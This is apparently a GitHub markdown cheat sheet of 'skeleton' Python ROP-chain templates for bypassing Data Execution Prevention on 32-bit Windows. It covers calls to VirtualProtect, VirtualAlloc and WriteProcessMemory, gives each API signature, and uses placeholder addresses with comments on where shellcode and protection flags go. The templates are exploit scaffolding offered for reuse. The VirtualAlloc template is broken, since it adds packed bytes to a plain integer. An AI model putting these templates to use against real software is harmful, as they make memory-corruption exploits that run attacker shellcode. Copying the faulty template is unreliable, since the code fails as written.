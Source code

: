 # Skeletons

---

### Table of Contents
- [Data Execution Prevention Bypass for 32bit](#data-execution-prevention-bypass-for-32bit)
  * [VirtualProtect](#virtualprotect)
  * [VirtualAlloc](#virtualalloc)
  * [WriteProcessMemory](#writeprocessmemory)

---

## Data Execution Prevention Bypass for 32bit
Data Execution Prevention (DEP) related stuff, with focus 32bit.

### VirtualProtect
- See [VirtualProtect](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect)

```c
BOOL VirtualProtect(
  [in]  LPVOID lpAddress,
  [in]  SIZE_T dwSize,
  [in]  DWORD  flNewProtect,
  [out] PDWORD lpflOldProtect
);
```

```python
vp = pack('<L', 0x41414141)   # VirtualProtect addy
vp += pack('<L', 0x42424242)  # shellcode return addy to return to, after VirtualProtect was called
vp += pack('<L', 0x43434343)  # lpAddress ---> same as above
vp += pack('<L', 0x44444444)  # dwSize ---> size of shellcode (0x400 or something like that)
vp += pack('<L', 0x45454545)  # flNewProtect ---> 0x40
vp += pack('<L', 0x46464646)  # lpflOldProtect ---> some writable memory address
```

### VirtualAlloc
- See [VirtualAlloc](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)

```c
LPVOID VirtualAlloc(
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```

```python
va = 0x41414141   # VirtualAlloc addy
va += pack('<L', 0x42424242)  # shellcode return addy to return to, after VirtualAlloc was called
va += pack('<L', 0x43434343)  # lpAddress ---> shellcode addy (same as above)
va += pack('<L', 0x44444444)  # dwSize ---> 0x1
va += pack('<L', 0x45454545)  # flAllocationType ---> 0x1000
va += pack('<L', 0x46464646)  # flProtect ---> 0x40
```

### WriteProcessMemory
- See [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)

```c
BOOL WriteProcessMemory(
  [in]  HANDLE  hProcess,
  [in]  LPVOID  lpBaseAddress,
  [in]  LPCVOID lpBuffer,
  [in]  SIZE_T  nSize,
  [out] SIZE_T  *lpNumberOfBytesWritten
);
```

```python
wpm = pack('<L', 0x41414141)   # WriteProcessMemory addy
wpm += pack('<L', 0x42424242)   # shellcode return addy to return to, after WriteProcessMemory was called (code cave)
wpm += pack('<L', 0xffffffff)   # hProcess ---> pseudo Process handle ---> -1
wpm += pack('<L', 0x44444444)   # lpBaseAddress ---> addy of code cave (same as above, dst)
wpm += pack('<L', 0x45454545)   # lpBuffer ---> shellcode addy (src)
wpm += pack('<L', 0x46464646)   # nSize ---> shellcode size
wpm += pack('<L', 0x47474747)   # lpNumberOfBytesWritten ---> writable memory addy
```
